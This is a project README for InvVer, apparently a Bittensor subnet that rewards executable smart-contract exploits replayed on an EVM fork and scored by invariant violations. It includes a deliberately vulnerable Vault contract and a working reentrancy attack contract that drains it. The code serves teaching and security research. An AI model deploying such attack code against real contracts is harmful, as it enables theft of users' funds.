


# InvVer

[한국어](./README.ko.md)

> **Break the invariant. Verify the exploit.**

**InvVer** is a Bittensor subnet for discovering unknown vulnerabilities in EVM smart contracts through **executable proof-of-concept attacks** and **deterministic fork replay**.

Miners do not earn rewards for naming a vulnerability or writing a persuasive report. They submit an attack that runs. Validators replay the same attack under the same fixed EVM conditions and score the resulting invariant violation and state impact.

```text
Unknown vulnerability
→ executable PoC
→ deterministic replay
→ invariant violation
→ reward
```

The name combines **Invariant** and **Verification**.

---

## Goal

**Build a market for the ability to audit contracts whose vulnerabilities are not known in advance.**

Conventional audit benchmarks normally begin with a list of previously confirmed findings. That means someone must discover and verify the answer before the benchmark can score anyone else.

InvVer changes the scoring question.

```text
“Did the miner identify a vulnerability in the answer set?”
                         ↓
“Did the miner produce an execution that broke the invariant?”
```

An invariant is a safety condition that must remain true. Examples include:

- protocol assets remain greater than or equal to liabilities;
- total supply does not increase without authorization;
- an unprivileged account cannot move another user’s assets;
- a withdrawal cannot make the protocol insolvent;
- governance state cannot change without the required authority and delay.

InvVer does not require a complete list of every possible vulnerability. A previously unknown finding becomes verifiable when its PoC executes and breaks a declared safety condition.

---

## Why Existing Audit Benchmarks Stop Short

When evaluation depends on a pre-existing answer set, three problems appear together:

1. **Memorization can become cheaper than capability.**
2. **A real new vulnerability can fall outside the answer set.**
3. **A report can score without proving exploitability.**

InvVer changes the miner submission from a claim or a tool into executable proof.

| Design pattern | What the miner submits | What is scored |
|---|---|---|
| BitAudit / ReinforcedAI-style auditing | `{"type": "reentrancy", "line": 12}` | Agreement with a known or planted label |
| Bitsec-style agent benchmarking | Code that searches for vulnerabilities | Agent output compared with confirmed findings |
| **InvVer** | **An executable smart-contract attack** | **Replayed invariant violation and state impact** |

```text
Claim  →  Tool  →  Proof
```

The defining difference is not merely that some code runs. **The smart-contract exploit itself is replayed and used as the scoring evidence.**

---

## Design Lineage

The following table summarizes the protocol patterns that informed InvVer. It describes the studied designs and historical versions, not the current operational status of any netuid.

| Design | Miner output | Scoring oracle | Contribution and remaining gap |
|---|---|---|---|
| **BitAudit** | Vulnerability JSON | Public dataset labels | Introduced smart-contract auditing as a subnet task, but a fixed public answer set made memorization economical |
| **ReinforcedAI** | Vulnerability JSON | Generator-planted labels | Replaced the static problem list with generated contracts, but the generator’s bug vocabulary became the new answer key |
| **Bitsec** | Reusable audit agent | Previously confirmed findings | Moved the submission from an answer to a tool, but scoring still required known findings and did not use the exploit itself as the oracle |
| **Trishool** | Adversarial prompt or attack scaffold | Guarded-agent execution interpreted by a judge | Turned attack production into a market, while the success boundary remained a semantic judge and rubric |
| **Yanez / MIID** | Adversarial identity data | Immediate quality score plus longer-term reputation | Introduced an exploration and reputation perspective, while immediate scoring and downstream security value remained separate signals |
| **InvVer** | **Executable PoC** | **EVM fork replay + invariant and impact checks** | **Makes the exploit execution itself the evidence used by independent validators** |

Two design movements are visible:

```text
Miner submission:  Answer  →  Tool  →  Attack  →  Executable proof
Scoring oracle:     Label   →  Known findings  →  Judge / reputation  →  EVM state transition
```

InvVer takes the strongest lesson from both lineages:

> **Marketize the difficult search, but make the verdict reproducible from execution.**

---

## Three Recurring Gaps

### Gap A — The answer must exist before scoring

In fixed-label smart-contract benchmarks, scoring starts only after somebody has confirmed the findings. Changing where the answer comes from—public data, a generator, or a human audit—does not remove that dependency.

### Gap B — The exploit itself is not the scoring evidence

Bitsec executes the miner’s audit agent, which is an important step beyond static answers. However, executing an auditor and replaying the exploit it claims to have found are different operations.

InvVer makes the exploit itself the object of evaluation.

### Gap C — The final verdict may not be independently reproducible

When the final score depends on a shared judge, a private ranking service, or an opaque reputation calculation, multiple validators can still depend on the same underlying oracle.

InvVer gives every validator the same fork, PoC, invariant, and execution conditions so that each validator can calculate the result independently.

### One execution addresses all three

```text
Replay the exploit
   ├─ no complete vulnerability answer set is required
   ├─ exploitability is demonstrated
   └─ the verdict can be reproduced independently
```

> **Previous systems changed how the answer was obtained. InvVer changes what counts as an answer: a reproduced invariant-breaking execution.**

---

## How InvVer Works



### Miner

The miner performs the expensive and creative work:

- analyze the contract;
- design an attack sequence;
- write an executable PoC;
- satisfy the fixed attacker permissions and execution conditions.

### Validator

The validator performs the cheaper verification work:

1. run the PoC;
2. check whether the invariant breaks;
3. measure the resulting state impact;
4. convert the result into a weight.

The validator does not need to rediscover the vulnerability or decide whether a natural-language explanation sounds convincing.

### Subtensor

Subtensor does not execute the exploit. It records validator weights, runs consensus, and settles rewards.

```text
InvVer     → defines and evaluates the security work
Subtensor  → aggregates weights and settles incentives
```

> **Searching for an exploit is creative and expensive. Replaying it is deterministic and comparatively cheap.**

This search–verification asymmetry is the foundation of the subnet.

---

## What Fork Replay Means

A blockchain fork is a local copy of the chain state at a specific block. It contains the contracts, balances, storage, and dependencies that existed at that moment, but executions performed on the fork do not modify the live network.

InvVer fixes the execution inputs:

- chain and block number;
- contract addresses and state;
- EVM execution conditions;
- invariant checks;
- attacker permissions;
- PoC and transaction sequence.

```text
Fixed inputs
→ same EVM computation
→ same post-state
→ same invariant verdict and impact
```

Validator A, B, and C can therefore replay the same attack independently and compare:

- whether the PoC completed;
- whether the invariant became false;
- how contract balances and storage changed;
- the final state and measured impact.

Fork replay provides a safe, reproducible execution environment without requiring a live-chain attack.

---

## Why This Is Auditable



Because each validator derives the result from the same execution, InvVer reduces dependence on:

- **a complete answer list** — the verdict is whether the declared invariant broke;
- **a round-time judge model** — the EVM state transition is measured rather than rhetorically interpreted;
- **a central ranking platform** — validators can calculate the raw result independently.

This does not mean that all human judgment disappears. Protocol authors still decide what the invariant means, which permissions the attacker has, and which execution conditions are valid. InvVer moves that semantic judgment **from post-hoc interpretation to rules fixed before competition**.

> **The EVM determines what happened. The predeclared rules determine whether it counts.**

---

## Minimal Example: A Vulnerable Vault

The following example is intentionally simple. Assume that the vault already contains funds deposited by other users.

### Vulnerable contract

```solidity
contract Vault {
    mapping(address => uint256) public balance;

    function deposit() external payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balance[msg.sender];

        // Ether is sent before the recorded balance is cleared.
        (bool ok, ) = msg.sender.call{value: amount}("");
        require(ok);

        balance[msg.sender] = 0;
    }
}
```

The contract sends Ether before clearing the user’s recorded balance. A receiving contract can call `withdraw()` again while the previous balance is still visible.

### Invariant

```solidity
// The vault must always hold enough Ether to cover all recorded balances.
assert(address(vault).balance >= sumRecordedBalances());
```

The invariant does not identify the vulnerability type. It defines a safety condition that must never be broken.

### What the miner submits

```solidity
contract Attack {
    Vault public immutable vault;
    uint256 private calls;

    constructor(Vault _vault) {
        vault = _vault;
    }

    function run() external payable {
        require(msg.value == 1 ether);

        vault.deposit{value: 1 ether}();
        vault.withdraw();
    }

    receive() external payable {
        if (calls++ < 5) {
            vault.withdraw();
        }
    }
}
```

The attacker deposits `1 ETH` and triggers six withdrawals before the vault clears the recorded balance.

```text
1 ETH deposited
6 ETH withdrawn
5 ETH net protocol loss
```

### What the validator does

```solidity
function testExploit() public {
    vm.createSelectFork(RPC_URL, FORK_BLOCK);

    Vault vault = Vault(VAULT_ADDRESS);
    uint256 beforeBalance = address(vault).balance;

    Attack attack = new Attack(vault);
    attack.run{value: 1 ether}();

    uint256 afterBalance = address(vault).balance;
    uint256 recordedBalances = sumRecordedBalances(vault);

    // 1. The PoC executed.
    // 2. The invariant is now false.
    assertLt(afterBalance, recordedBalances);

    // 3. In this example, net vault loss is the impact value.
    uint256 netLoss = beforeBalance - afterBalance;
}
```

The validator does not decide whether the report “sounds like reentrancy.” It observes the execution.

```text
1. Does the PoC run?                → No: 0 points
2. Does the invariant break?        → No: 0 points
3. How large is the state impact?   → Rank valid PoCs
```

For this vault, impact is net asset loss. Other contracts can measure unauthorized minting, insolvency, frozen funds, privilege escalation, or governance takeover.

---

## Three Gaps, One Execution

| Recurring gap | InvVer response |
|---|---|
| Scoring requires a complete vulnerability list in advance | **The invariant violation is the verdict** |
| A finding can score without demonstrated exploitability | **The PoC itself runs on the fork** |
| The final result depends on a central interpreter | **Each validator derives the raw result independently** |

> **Knowing a vulnerability label is not enough. To earn reward, a miner must produce the execution that causes the failure.**

---

## Why Bittensor

InvVer separates open-ended discovery from deterministic verification.

```text
Miners       compete to discover attacks
Validators   independently replay attacks
Subtensor    reaches consensus on weights and distributes rewards
```

This structure is useful because:

- vulnerability discovery benefits from many independent strategies;
- miners can use any model, fuzzer, symbolic executor, agent, or human technique;
- validators do not need to be better auditors than the miners;
- expensive creative search happens once, while verification can be repeated cheaply;
- an unknown finding becomes rewardable as soon as its execution is reproduced.

The benchmark directly defines the product:

> **To earn reward, a miner must produce the thing the market wants—an executable exploit proof.**

---

## Where Invariants Come From

Fixing the invariant before competition is what makes the verdict reproducible. It also makes invariant supply the scarce input, so it is worth being explicit about who writes them.

**Standard classes** — reentrancy, money-flow bounds, access control, gas bounds — are generated from source. Our reproduction of Trace2Inv (ISSTA 2024) found that this tier alone would have blocked 23 of 27 real historical exploits. That tier is automatable, and `generator/` implements it for contracts with no transaction history at all.

**Protocol-specific economic invariants** are written by auditors. This is deliberately not automated. It is what an audit business already produces, and it is the part a competing subnet cannot bootstrap without one.

A subnet with only the first tier is a faster static analyzer. A subnet with both is a market for the failures that actually cause large losses.

---

## Status

InvVer is an early-stage design with a working core. We keep the line between the two visible rather than blurred.

| Component | State |
|---|---|
| Scoring rule — invariant violation, impact ranking, novelty, minimality | **Implemented**, 25 passing tests, no dependencies — [`subnet/`](subnet) |
| Invariant generation for contracts with no transaction history | **Implemented and measured** — [`generator/`](generator) |
| Trace2Inv reproduction | **Reproduced by us** — 23/27 exploits blocked at 3.99% FP, 20/27 at 0.28%, matching the authors' expected output |
| PoC / invariant harness | Written, **not yet executed** — no Foundry install in the build environment |
| LLM invariant generation | Implemented, **not yet run** against a billed endpoint |
| Fork replay against live chain state | **Designed, not implemented.** The current harness deploys locally |
| Miner and validator neurons | **Skeletons.** Unimplemented functions raise rather than returning plausible values |
| Testnet subnet | **Not started** |

Nothing in this repository reports a number we did not measure. Reasoning and sources: [`docs/evidence.md`](docs/evidence.md).

---

## Repository

```
subnet/      Python — scoring rule, miner/validator skeletons, network monitoring
generator/   Node.js — invariant generation from source + the verification harness
web/         A static walkthrough of the pipeline (runs locally, KO/EN)
docs/        Architecture and evidence
```

Both of these run with no API key, no wallet, and no network:

```bash
cd subnet    && python -m unittest discover tests -v   # the scoring rule
cd generator && npm install && npm run step1           # invariant retrieval
```

The worked example in this README is a minimal vault, chosen for clarity. The contract actually wired into the repository is [DeFiVulnLabs / `SimpleBank`](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ERC777-reentrancy.sol) — an ERC777 reentrancy where a per-account cap of 1,000 is bypassed to 1,900. Same shape, real provenance.

---

## Precise Claim

InvVer does not claim to be the only system that executes code.

- Bitsec executes the audit agent.
- Trishool executes adversarial prompts against a guarded agent.
- InvVer executes the **smart-contract exploit itself** and uses the resulting EVM state transition as scoring evidence.

InvVer also does not claim that execution alone defines protocol intent. The invariant, attacker permissions, and execution conditions are fixed before evaluation. Once those rules are fixed, validators calculate the round-time verdict from the replayed execution rather than from a post-hoc interpretation of the report.

---

## Core Principles

1. **No exhaustive vulnerability answer list.**
2. **No positive score without an executable PoC.**
3. **The smart-contract exploit itself is replayed.**
4. **The invariant and attacker conditions are fixed before evaluation.**
5. **The same fork and transaction sequence produce the same execution result.**
6. **Validators calculate raw results independently.**
7. **Impact is measured from observable state change.**
8. **Live contracts are handled only with explicit authorization and responsible disclosure.**

---

## Project

InvVer is developed by **Anam145**, an operating smart contract security audit firm, with the [Intelligence Computing Lab](https://sites.google.com/view/iclab-hansung) at Hansung University.

**Repository:** https://github.com/ehddnrRb/InvVer-subnet
**License:** MIT — see [LICENSE](LICENSE). Vendored references keep their own licenses.
